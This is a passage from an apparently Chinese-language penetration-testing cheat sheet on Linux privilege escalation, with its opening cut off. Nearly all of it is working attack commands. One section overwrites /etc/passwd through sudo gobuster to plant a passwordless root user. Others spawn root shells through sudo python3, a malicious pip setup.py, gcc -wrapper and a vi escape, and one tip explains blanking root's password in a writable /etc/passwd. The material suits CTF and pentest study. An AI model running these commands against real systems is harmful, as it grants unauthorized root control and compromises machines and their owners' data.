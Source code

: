 ```#kali
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

python a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.64.3:80
Press CTRL+C to quit

#靶机
echo 'aaa:aacFCuAIHhrCM:0:0:x:/root:/bin/bash' > aaa
sudo /usr/bin/gobuster -w aaa -u http://192.168.64.3 -n -q -o /etc/passwd
cat /etc/passwd
su - /aaa
```

#### 直接写入

有些时候sudo -l你会发现可执行的是个可写入文件，那直接写入/bin/bash去提权即可
又如python可以直接执行时

```
sudo /usr/bin/python3 -c 'import os;os.execl("/bin/sh","sh","-p")'
```

#### pip提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip install $TF
```

#### 写入密码

当/etc/passwd可以写入的时候，可以把root的密码设置为空，或者是openssl passwd -1去生成密码，把root的密码改了

#### gcc提权

```
sudo gcc -wrapper /bin/sh,-s .
```

#### vi逃逸

前提就是可以root执行vi，直接打开vi写入:!sh，本质是打开了一个shell

### 常用挤巧
